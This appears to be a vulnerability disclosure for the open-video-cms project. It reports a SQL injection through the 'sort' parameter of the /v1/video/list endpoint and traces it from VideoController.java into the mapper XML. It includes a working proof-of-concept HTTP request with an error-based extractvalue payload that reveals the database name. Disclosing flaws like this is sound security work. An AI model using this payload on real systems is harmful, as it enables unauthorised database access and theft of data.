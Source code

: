 # open-video-cms has sql injection vulnerability in video/list

## supplier 

https://github.com/realguoshuai/open-video-cms/blob/master/README.md

## Vulnerability file

/v1/video/list

## describe

The system there is sql inection vulnerability Via sort parameter .The parameters that can be controlled are as follows:  sort parameter . A attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

in VideoController.java

servler url

```
/v1/video/list
```

![Image](https://github.com/user-attachments/assets/ec7d55ce-08e8-4862-825f-2447615489e1)

and reflect to ViedeoMapper.xml

id = "listObjectByQuery"，sort can be control cause sql injection

![Image](https://github.com/user-attachments/assets/d0f6ee81-1524-40f0-9bbc-317755bc1ffa)

![Image](https://github.com/user-attachments/assets/460d3b87-b127-4bf3-ae09-ba560576d602)

## POC

```
GET /zy_video_war/v1/video/list?sort=extractvalue(1,concat(0x7e,database(),0x7e))%23&order=1 HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Not(A:Brand";v="24", "Chromium";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: collapase-nav=collapse-nav2
Connection: close

```

**Result**

get database name

![Image](https://github.com/user-attachments/assets/77e2caec-cf66-4522-a90b-0cd1ac00c666)
